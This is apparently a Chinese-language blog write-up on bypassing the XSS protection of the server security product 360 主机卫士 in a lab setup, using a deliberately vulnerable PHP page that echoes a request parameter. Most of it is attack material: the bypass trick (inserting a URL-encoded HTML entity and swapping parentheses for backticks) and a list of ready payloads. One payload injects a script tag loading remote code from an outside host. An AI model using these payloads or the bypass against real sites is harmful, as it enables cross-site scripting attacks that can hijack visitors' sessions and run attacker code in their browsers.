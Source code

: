 ### 前言
- - -
360主机卫士是360旗下的服务器安全软件，为站长免费提供网站后门检测、木马查杀，网站补丁、漏洞防护等服务...

![1](https://ae01.alicdn.com/kf/Uad2732ca0c4943088ca09f550ff5caccL.png)

(虽然软件几年前就停止更新，官网挂了，但是从当时的评论上看软件还是很不错的。)

### 环境
- - -
火狐

360主机卫士Apache版

phpStudy2016(PHP-5.4.45+Apache)

测试代码
```
<?php   
  $input = @$_REQUEST["xss"];
  echo "<div>".$input."</div>"
?>
```
### 测试
- - -
习惯性的直接上 Burp 用平时收集的 payload fuzz 一遍，结果不怎么理想，能过的很鸡肋...然后我就去网上找资料，找到了一篇文章[xss加入某些字符即可过大多数waf的思路及一些思考](https://mp.weixin.qq.com/s/CCc12FWWJMRP4V6x0XXaoA)根据里面的思路可以绕过。

`<svg onload>` 拦截

`<svg > onload>`不拦截

具体绕过就是先把 `>` html实体编码

![2](https://ae01.alicdn.com/kf/Ue6dc8da4a8ac4497a96828e039c729574.png)

将 `&#62` URL编码

![3](https://ae01.alicdn.com/kf/U143681d1e9b64df0b67ebab674991c93N.png)

大部分 `xss payload` 加上 `%26%2362` 即可绕过，但是类似 alert(1) 括号可能会被拦截 可以用反引号替换
```
<svg %26%2362 onload=alert`1`>
```
![4](https://ae01.alicdn.com/kf/U3529497cee1f48e7b86ccedd924109a2B.png)

给几个测试绕过的 `payload`
```
<style  %26%2362 onload=alert`1`>
<img %26%2362 src=1  onerror=alert`1`>
<audio %26%2362 src=x  onerror=alert`1`>
<svg %26%2362 onload=appendChild(createElement('script')).src='//xs.ax/HfcB'>
```
